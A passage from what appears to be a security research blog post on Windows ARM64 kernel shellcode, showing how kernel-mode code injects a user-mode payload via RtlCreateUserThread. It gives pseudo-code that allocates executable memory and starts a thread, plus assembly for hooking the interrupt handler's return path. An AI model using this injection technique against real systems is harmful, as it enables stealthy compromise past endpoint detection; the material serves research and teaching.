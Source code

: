 I did write about why [event-driven detections (most EDRs) have blindspots](https://www.comae.com/posts/2019-04-24_how-to-solve-the-blindspots-of-event-driven-detection/) last year by looking at APC code injection technique as a case study. Here is a timeline of events from when Barnaby Jack first published it at BlackHat 2005.

![timeline](https://www.comae.com/posts/2019-04-24_how-to-solve-the-blindspots-of-event-driven-detection/images/2.png)

But guess what, Windows 10 kernel exports `RtlCreateUserThread()` which allows you to do exactly what is says it does. The parameters are exactly the same as its ntdll version, which would work as the below pseudo-code section. Although not covered in the latest blogpost by [@zerosum0x0](https://twitter.com/zerosum0x0), I invite you to read his latest blogpost about [known ring0 escapes](https://zerosum0x0.blogspot.com/2020/06/heresys-gate-kernel-zwntdll-scraping.html) as it gives a great historical context of the currently known techniques and why it is awesome that `RtlCreateUserThread` is exported and works fine :) AFAIK, I haven't seen any public Windows shellcode using that technique either.

```cpp
    m_CurrentIrql = KeGetCurrentIrql()
    m_KfLowerIrql(PASSIVE_LEVEL)
    m_KeStackAttachProcess((PVOID)m_EProcessObject, &m_KAPC);
    m_UserAddress = NULL;
    m_UserModePayloadSize = 0x1000;
    if (NT_SUCCESS(m_ZwAllocateVirtualMemory((HANDLE)-1, &m_UserAddress, 0, &m_UserModePayloadSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE))) {
        memcpy(m_UserAddress, UserModeShellcode, USERMODE_SHELLCODE_SIZE);
        m_RtlCreateUserThread((HANDLE)-1, NULL, FALSE, 0, NULL, NULL, m_UserAddress, 0, &m_hThread, &m_ClientId);
    }
    m_KeUnstackDetachProcess(&m_KAPC);
    m_KfRaiseIrql(KPCR->CurrentIrql)
```

Another thing that you will notice is that I directly call `hal!KfLowerIrql` and `hal!KfRaiseIrql`, instead of hardcoding IRQL changes like we usually see with x64 shellcodes - it was purely to play on the safe side to have a reliable shellcode and since we are working with `hal` anyway, it didn't make sense to hardcode it although `hal!KeGetCurrentIrql` is hardcoded as it is a straightforward function. `KeStackAttachProcess()` allows us to use ` (HANDLE)-1` instead of having to do extra operations stuff like `ZwOpenProcess()` to retrieve the handles etc.

Although commented, disabling/enabling interrupts is pretty straightforward but it was not required for the kernel payload to work properly.
```asm
    ;msr     DAIFClr, #2             ; enable interrupts
    (..) 
    ;msr     DAIFSet, #2             ; disable interrupts
```

### Let's go!
And after calling our homemade `POPAD` we can continue the execution of the original function.

```asm
    ; Continue the GIC Request Call
    ldr     x8, m_HalpGic3RequestInterrupt
    br      x8
    ret
```
## Userland
Thanks to our EL1/kernel call to `nt!RtlCreateUserThread` we are now running code in EL0.
